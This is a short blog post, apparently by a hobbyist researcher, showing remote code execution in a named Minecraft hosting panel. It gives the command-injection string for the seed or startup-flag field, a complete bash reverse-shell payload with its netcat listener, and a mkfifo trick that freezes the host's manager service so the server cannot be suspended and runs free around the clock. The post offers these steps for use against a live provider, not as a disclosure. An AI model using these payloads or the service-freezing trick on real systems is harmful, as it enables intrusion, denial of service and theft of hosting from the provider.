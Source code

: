```yaml
---
date: 2025-02-07
title: Stupidest RCE I have encounter.
description: 'This is probably the stupidest RCE I have encounter.'
---
```


# PoC: RCE From Frontend.

Hello, Recently I have been doing some research with my friend [(OddByte)](https://oddbyte.dev/)

And we have discover an RCE within the panel itself. Leading to us getting shell access directly from the panel.

But due to how they run their containers, We weren't able to get root access.

#### 1. How does it work?

How they run their CTs are a bit weird...

```
Host > VM > CT
```

But, I will be talking about the VM today.

The VM runs something called `minecraft-manager`.

Which basically control everything on your server.

Every POST/GET Request to your server is managed with `minecraft-manager`.

`minecraft-manager` is hosted on the VM itself.

So If we find a way to crash `minecraft-manager` they wouldn't be able to suspended our server from their admin panel.

The only way the server can be deleted is from them manually `rm -rf`ing it.

#### 2. Actually RCEing the panel.

Let's get to the main point of this blog. RCEing the panel.

This is how it works.

Every server has it's own manager subdomain in a form of

```
[serverID].manager.minehut.com
```

Here is an Example:

![Img](https://i.imgur.com/2juofzG.png)

Now, They have a path to get your startup flags.

```
/v1/game/start_cmd
```

Like this:

![Img](https://i.imgur.com/v0Leg1j.png)

This is so fucking retarded because you can legit just RCE it with

```
$(bash -c 'command here')
```

Also, This does not require any authentications what so ever.

But how do you modified start_cmd?

You can directly modified start_cmd from their panel.

I will be using Seed as an example

Firstly, I will start a netcat server on port 25565 with command

```
nc -lvnp 25565
```

![Img](https://i.imgur.com/4sVVh0z.png)

Then I will go to the panel. And input

```
$(bash -c 'sh -i >& /dev/tcp/IP Address/PORT 0>&1')
```

As the seed, (You can put it on anything. Not limited to seed.)

After that, restart your server and you should be in sh!

![Img](https://i.imgur.com/OOCAxcK.png)

![Img](https://i.imgur.com/MP1TSOl.png)

![Img](https://i.imgur.com/Use07Jz.png)

As you can see, We just did the stupidest RCE ever made.

#### Warning

Doing this can get your server and your account suspended.

Do it as your own risk.

![Img](https://i.imgur.com/Hy0Cv6p.png)

#### 3. Getting 24/7 on free server.

Before doing this. I recommend you having a shell plugin and luckperms with \* permission on default group.

This will make your account completely bricked.

After you have shell access. You can make an fifo with

```
mkfifo whatevername
```

After you made a new fifo file.

Open it in the file manager. And minecraft-manager will start freezing.

After a few hours, The API to your server will be timed out.

The panel will stop working and showing no results.

And when you visit

```
api.minehut.com/server/Servername?byName=true
```

It will be timed out

![Img](https://i.imgur.com/OK8T1np.png)

Like this image here. And boom, you have successfully bricked minecraft-manager.

And now you have 24/7 for free!

![Img](https://i.imgur.com/UUGabEK.png)
